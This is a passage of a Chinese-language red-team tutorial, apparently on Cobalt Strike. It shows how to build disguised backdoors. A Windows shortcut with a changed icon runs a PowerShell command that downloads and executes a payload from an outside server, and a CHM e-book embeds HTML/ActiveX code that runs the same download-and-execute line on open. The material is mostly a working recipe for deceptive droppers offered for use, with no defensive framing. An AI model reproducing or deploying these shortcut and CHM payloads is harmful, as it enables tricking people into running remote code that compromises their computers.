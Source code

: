 依次点击 Attacks->Packages->HTMLApplication：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVACjr6LYXswARjpicaqJW8lyBp7MJEh84oJIAhhCEfaNRHLzSNfVcCZIg/640?wx_fmt=png)

选择好 listener 和 mothod 后，这里的 method 选择 powershell 方式，然后生成相应 ps1 脚本，再把脚本放在相应的 http 服务器上，也可以用 cs 的 hosta file 功能：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAGVT8ppH1zn82lVALGmzl6oyrt6ZtvpnCatFZ7Bl5yGpf0NQtXs51kw/640?wx_fmt=png)

然后新建快捷方式，选择好相应的程序，填入相应的目标地址：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAlA7yvYzLgQF4RVBwJvXibYYaichmjJsa0HynOvNDNnCTO8dzAKEGeC5Q/640?wx_fmt=png)

目标地址如下：

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe-exec bypass -c IEX (New-ObjectSystem.Net.Webclient).DownloadString('http://192.168.202.131:8080/payload.ps1')
```

可以更改图标增加迷惑性：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAZic2nRwickWRDdvu8Qbk2CvIoAvOhsgGcjpkyicfxFecbC0dqgowSPSPA/640?wx_fmt=png)

执行上线：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAncRdvbL87BDTu68JiaKeVsh2QUlWicu33YAd0wGe8nfSxbhcSdyDeH4g/640?wx_fmt=png)

**2.5 CHM 电子书**
---------------

这种后门是较为隐秘的后门，先新建文本，再复制下面的代码到文本中：

```
<!DOCTYPEhtml><html><head><title>Mousejackreplay</title><head></head><body>
commandexec
<OBJECTid=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"width=1 height=1>
<PARAM>
<PARAM >
<PARAM ,cmd.exe,/cC:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe-exec bypass -c IEX (New-ObjectSystem.Net.Webclient).DownloadString('http://192.168.202.131:8080/payload.ps1')">
<PARAM >
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

然后把文本另存为 html 格式，ANSI 编码。

接着使用 EasyCHM 制作相应的 CHM 电子书，打开 EasyCHM 后，依次点击新建 -> 浏览 -> 选择 html 文件所在所在的目录：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABAyVvoTReeBwR5h8J3sJVAyrJjPGASrTS0LuxbibibQqjT3tjFo6oYQt3RBKicWvEHGw8AyukwHcFNg/640?wx_fmt=png)

点击编译，生成 CHM 电子书。
